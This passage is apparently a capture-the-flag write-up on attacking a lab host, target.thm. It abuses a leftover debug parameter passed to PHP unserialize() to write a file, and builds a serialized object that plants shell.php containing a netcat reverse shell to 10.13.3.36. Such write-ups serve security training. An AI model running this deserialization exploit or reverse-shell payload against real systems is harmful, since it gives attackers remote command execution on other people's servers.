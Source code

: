 ```php
```

This code take the name, email and comment passed in the GET by a form on the page. It uses those values to build a message that gets written to the file `message.txt` when the object is destructed.

I tested it in the `index.php` page by sending this [http://target.thm/index.php?name=test&email=test&comments=test&select=1&checkbox=1](http://target.thm/index.php?name=test&email=test&comments=test&select=1&checkbox=1).

Then I  navigated to [http://target.thm/message.txt](http://target.thm/message.txt) and my data had been added to the file.

```
Message From :  || From Email :  || Comment :
Message From :  || From Email :  || Comment :
Message From :  || From Email :  || Comment :
Message From :  || From Email :  || Comment :
Message From :  || From Email :  || Comment :
Message From :  || From Email :  || Comment :
Message From :  || From Email :  || Comment :
Message From :  || From Email :  || Comment :
Message From : test || From Email : test || Comment : test

```

In the PHP file, there is some code left there for debugging.

```php
// Leaving this for now... only for debug purposes... do not touch!
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);
```

If the URL contains a `debug` parameter, it will unserialize its content. That meant I could serialize an object of the class FormSubmit with the file and message I wanted. The server would then unserialize it, and when it would reach the end of the PHP block, the object would be out of scope and the class destructor would be called and my message would be written to the file I choose.

I created the object to insert a reverse shell in the file shell.php.

```php
<?php

class FormSubmit {

	public $form_file = 'shell.php';
	public $message = "
<?php
`mkfifo /tmp/kirxhbg; nc 10.13.3.36 4444 0</tmp/kirxhbg | /bin/sh >/tmp/kirxhbg 2>&1; rm /tmp/kirxhbg`;
	";

}

$o = new FormSubmit();
echo urlencode(serialize($o)) . "\n";
```
